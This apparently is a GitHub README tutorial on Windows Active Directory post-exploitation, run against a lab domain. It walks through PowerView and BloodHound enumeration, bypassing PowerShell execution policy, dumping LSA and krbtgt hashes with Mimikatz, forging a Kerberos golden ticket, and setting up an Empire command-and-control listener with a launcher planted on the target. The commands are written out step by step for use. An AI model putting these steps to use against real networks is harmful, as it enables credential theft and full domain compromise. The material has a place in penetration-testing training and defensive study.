# Windows-PostExploitation

### Resources
- [Empire](https://github.com/EmpireProject/Empire.git)
- [PowerView](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

### Contents
- [Enumeration with Powerview](https://github.com/ayushpathak29/Windows-PostExploitation#enumeration-powerview)
- [Enumeration with Bloodhound](https://github.com/ayushpathak29/Windows-PostExploitation#enumeration-bloodhound)
- [Mimikatz](https://github.com/ayushpathak29/Windows-PostExploitation#mimikatz)
- [Server Manager](https://github.com/ayushpathak29/Windows-PostExploitation#server-manager)
- [Empire](https://github.com/ayushpathak29/Windows-PostExploitation#empire)

### Enumeration with Powerview

**Powerview** is a Powershell script, which is used for enumerating a domain after you have already gained a shell in the system.
1. We will here start with initial shell, firstly type `powershell -ep bypass` in the command prompt/shell, -ep bypasses the execution policy of powershell allowing you to easily run scripts.

2. Now download the powerview.ps1 script in windows machine, and import it.

3. Enumerate the domain users - `Get-NetUser | select cn`


4. Enumerate the domain groups - `Get-NetGroup -GroupName *admin*`


5. Finding Share Folders - `Invoke-ShareFinder`


6.Finding what operating system is running inside of the network.


```
PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata


pwdlastset                    : 7/15/2020 5:59:31 AM
logoncount                    : 57
serverreferencebl             : CN=DOMAIN-CONTROLL,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=C
                                ONTROLLER,DC=local
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=DOMAIN-CONTROLL,OU=Domain Controllers,DC=CONTROLLER,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 7/15/2020 5:59:55 AM
name                          : DOMAIN-CONTROLL
objectsid                     : S-1-5-21-849420856-2351964222-986696166-1000
samaccountname                : DOMAIN-CONTROLL$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : 805306369
whenchanged                   : 7/15/2020 12:59:55 PM
accountexpires                : 9223372036854775807
countrycode                   : 0
adspath                       : LDAP://CN=DOMAIN-CONTROLL,OU=Domain Controllers,DC=CONTROLLER,DC=local
instancetype                  : 4
msdfsr-computerreferencebl    : CN=DOMAIN-CONTROLL,CN=Topology,CN=Domain System
                                Volume,CN=DFSR-GlobalSettings,CN=System,DC=CONTROLLER,DC=local
objectguid                    : de356d62-5156-4f21-98ad-eb28f347f32d
operatingsystem               : Windows Server 2019 Standard Evaluation
operatingsystemversion        : 10.0 (17763)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=CONTROLLER,DC=local
dscorepropagationdata         : {5/14/2020 3:14:47 AM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {TERMSRV/DOMAIN-CONTROLL, TERMSRV/Domain-Controller.CONTROLLER.local,
                                Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/Domain-Controller.CONTROLLER.local,
                                ldap/Domain-Controller.CONTROLLER.local/ForestDnsZones.CONTROLLER.local...}
usncreated                    : 12293
memberof                      : {CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=CONTROLLER,DC=local, CN=Cert
                                Publishers,OU=Groups,DC=CONTROLLER,DC=local}
lastlogon                     : 7/15/2020 6:01:15 AM
badpwdcount                   : 0
cn                            : DOMAIN-CONTROLL
useraccountcontrol            : 532480
whencreated                   : 5/14/2020 3:14:46 AM
primarygroupid                : 516
iscriticalsystemobject        : True
msds-supportedencryptiontypes : 28
usnchanged                    : 32781
ridsetreferences              : CN=RID Set,CN=DOMAIN-CONTROLL,OU=Domain Controllers,DC=CONTROLLER,DC=local
dnshostname                   : Domain-Controller.CONTROLLER.local

logoncount                    : 10
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=DESKTOP-2,CN=Computers,DC=CONTROLLER,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
badpwdcount                   : 0
lastlogontimestamp            : 5/14/2020 12:05:03 PM
objectsid                     : S-1-5-21-849420856-2351964222-986696166-1109
samaccountname                : DESKTOP-2$
localpolicyflags              : 0
lastlogon                     : 5/14/2020 12:32:05 PM
codepage                      : 0
samaccounttype                : 805306369
whenchanged                   : 5/14/2020 7:06:38 PM
countrycode                   : 0
cn                            : DESKTOP-2
accountexpires                : 9223372036854775807
adspath                       : LDAP://CN=DESKTOP-2,CN=Computers,DC=CONTROLLER,DC=local
instancetype                  : 4
usncreated                    : 20521
objectguid                    : 99e46c23-9ea0-44da-8d67-7396aedd6fe8
operatingsystem               : Windows 10 Enterprise Evaluation
operatingsystemversion        : 10.0 (18363)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=CONTROLLER,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {RestrictedKrbHost/DESKTOP-2, HOST/DESKTOP-2,
                                RestrictedKrbHost/Desktop-2.CONTROLLER.local, HOST/Desktop-2.CONTROLLER.local}
ms-ds-creatorsid              : {1, 5, 0, 0...}
iscriticalsystemobject        : False
usnchanged                    : 20536
useraccountcontrol            : 4096
whencreated                   : 5/14/2020 7:05:03 PM
primarygroupid                : 515
pwdlastset                    : 5/14/2020 12:05:03 PM
msds-supportedencryptiontypes : 28
name                          : DESKTOP-2
dnshostname                   : Desktop-2.CONTROLLER.local

logoncount                    : 7
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=DESKTOP-1,CN=Computers,DC=CONTROLLER,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
badpwdcount                   : 0
lastlogontimestamp            : 5/14/2020 12:25:53 PM
objectsid                     : S-1-5-21-849420856-2351964222-986696166-1110
samaccountname                : DESKTOP-1$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : 805306369
whenchanged                   : 5/14/2020 7:26:53 PM
countrycode                   : 0
cn                            : DESKTOP-1
accountexpires                : 9223372036854775807
adspath                       : LDAP://CN=DESKTOP-1,CN=Computers,DC=CONTROLLER,DC=local
instancetype                  : 4
usncreated                    : 20549
objectguid                    : 260ac494-585f-4ae4-884e-1acf1ff7d55f
operatingsystem               : Windows 10 Enterprise Evaluation
operatingsystemversion        : 10.0 (18363)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=CONTROLLER,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : {RestrictedKrbHost/DESKTOP-1, HOST/DESKTOP-1,
                                RestrictedKrbHost/Desktop-1.CONTROLLER.local, HOST/Desktop-1.CONTROLLER.local}
lastlogon                     : 5/14/2020 12:27:04 PM
iscriticalsystemobject        : False
usnchanged                    : 20563
useraccountcontrol            : 4096
whencreated                   : 5/14/2020 7:25:52 PM
primarygroupid                : 515
pwdlastset                    : 5/14/2020 12:25:52 PM
msds-supportedencryptiontypes : 28
name                          : DESKTOP-1
dnshostname                   : Desktop-1.CONTROLLER.local
```

7. Get information about forest with `Get-NetForest`


8. Get Domain information with `Get-NetDomain`


9. Finding all running Processes. `Get-NetProcess`


You'll find more Commands [here](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

### Enumeration with Bloodhound

1. Open the windows command prompt or your shell anddownload the sharphound.ps1 on target machine and type the following command, this will collect all data like users, domains, groups, trusts etc and save it into json file, then we'll create a zip file which we'll later import in bloodhound to find out details about the target.
```Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName test,zip```


2. Now we'll transfer this zip file into your kali machine.

3. Now import this zip file into bloodhound and it will show you all the data in graphical form.

4. Click on queries and click on any query to view the information.


###  Mimikatz

1. Run the mimikatz application on your target and type `privilege::debug`, ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly.


2. Now dump hashes with `lsadump::lsa /patch`


You can crack these hashes with hashcat or any other tool.

**GOLDEN TICKET ATTACK** 
1. Let's dump the hashes and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
`lsadump::lsa /inject /name:krbtgt`


2. Now let's create a Golden Ticket like in this format `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`


3. Now we will use the Golden Ticket to access other machines. `misc::cmd` - This will open a new command prompt with elevated privileges to all machines.


### Enumeration with Server Manager

For enumerating the target with Server manager, you need to connect to the machine through rdp.
1. Open server manager, click on tools and select the Active Directory Users and Computers.


   

2. You can view the event logs and many other things. 


### Empire
1. Firstly, run ./empire and type help to view all the available commands.


2. We'll run `listeners` firstly, to get into listeners module, then type help to view all the available options under listener module.


3. Now type `uselistener` and hit tab to get all the possible listeners. We'll use here http listener. After that type info, it will then show all the available options.

We have to change Host and Port. Type `set host <your-ip>:<port>`and `set port <port>`

4. After setting host and port, type `execute`. You'll see "Listener succesfully started" Message.
5. Now type `back` to go back and then type `launcher powershell http`. Copy that powershell code into a file and tranfer that to your target machine.


6. Once you execute that powershell script on the target machine, you'll see connection in Empire. Here you can see 1 listener and 1 agent is active. Type `agents` to view agents.


7. Now to execute commands on our target, type `interact <agent-name>`. You can hit tab to autofill.
8. Type `usemodule` and hit tab to view all the available modules you can use. For example to run "PowerUp script with allchecks" on target, type `usemodule privesc/powerup/allchecks` and then type `execute`. It will start the job and give us all results once finished. 
9. Type `jobs` to view all running jobs.
10. You can also use mimikatz unser Empire, type `searchmodule mimikatz` to view all available modules.


11. To import any other powershell script in empire, type `scriptimport <path-to-powershell-script>` and it will import that script into memory. After that you can run `scriptcmd command`. 
